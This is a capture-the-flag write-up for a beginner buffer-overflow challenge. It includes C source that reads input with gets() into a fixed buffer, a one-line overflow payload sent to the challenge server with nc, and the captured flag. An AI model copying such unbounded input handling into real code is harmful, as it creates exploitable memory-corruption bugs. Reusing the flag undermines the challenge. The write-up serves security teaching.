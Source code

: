![](images/5-header.png)

# Butter Overflow
### easy | warmups | 50 points  
<br/>

## Challenge Information
Can you overflow this right?
<br/><br />

## Solution
This is a very simple buffer overflow challenge. There are three files:
- a makefile
- the source code 
- the resulting executable file

We were also given an server that we could connect to using nc.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <signal.h>
#include <sys/stat.h>

void give_flag();

void handler(int sig) {
    if (sig == SIGSEGV)
        give_flag();
}

void give_flag() {
    char *flag = NULL;
    FILE *fp = NULL;
    struct stat sbuf;

    if ((fp = fopen("flag.txt", "r")) == NULL) {
        puts("Could not open flag file.");
        exit(EXIT_FAILURE);
    }

    fstat(fileno(fp), &sbuf);

    flag = malloc(sbuf.st_size + 1);
    if (flag == NULL) {
        puts("Failed to allocate memory for the flag.");
        exit(EXIT_FAILURE);
    }

    fread(flag, sizeof(char), sbuf.st_size, fp);
    flag[sbuf.st_size] = '\0';

    puts(flag);

    fclose(fp);
    free(flag);

    exit(EXIT_SUCCESS);
}

int main() {
    char buffer[0x200];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    signal(SIGSEGV, handler);

    puts("How many bytes does it take to overflow this buffer?");
    gets(buffer);

    return 0;
}
```

The source code shows the buffer is 512 chars long (I initially didn't see the 0x before the 200 and thought it was 200 chars long), and the flag is printed when a segmentation fault takes place, denoted by the `handler()` function.

As I initially saw the buffer as 200 chars, I tried sending inputs with more than 200 chars, and that clearly did not work.

After sometime, I sent an input with a very high character length after looking up some resources. It caused a segmentation fault!

```shell
$ python -c 'print "A"*1200' > file
$ chmod +x butter_overflow
$ cat file | ./butter_overflow
How many bytes does it take to overflow this buffer?
Could not open flag file.
```

The flag file did not open as there is no flag file on my machine. Since the input worked, I sent the same input to the server for this challenge, and received the flag!

```shell
$ cat file | nc challenge.ctf. games 30054
How many bytes does it take to overflow this buffer?
flag{72d8784a5da3a8f56d2106c12dbab989}
```

Flag: `flag{72d8784a5da3a8f56d2106c12dbab989}`